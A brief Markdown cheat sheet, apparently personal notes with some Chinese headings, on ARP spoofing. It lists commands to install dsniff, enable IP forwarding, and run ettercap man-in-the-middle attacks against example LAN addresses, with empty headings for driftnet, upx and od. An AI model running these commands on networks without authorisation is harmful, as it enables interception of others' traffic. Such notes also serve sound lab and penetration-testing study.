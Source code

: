 # arp

## arpspoof
1. install
```shell
apt install dsniff
```
2. 开启IP转发
```shell
# Linux root user
echo 1 >/proc/sys/net/ipv4/ip_forward
```
3. 查看IP转发
```shell
sudo sysctl -a | grep forward
```

## ettercap
```shell
# arp spoof
sudo ettercap -T -M arp /192.168.31.1// /192.168.31.68//
#
sudo ettercap -T -M arp:remote /192.168.31.1// /192.168.31.68//
```

## driftnet
## upx
## od
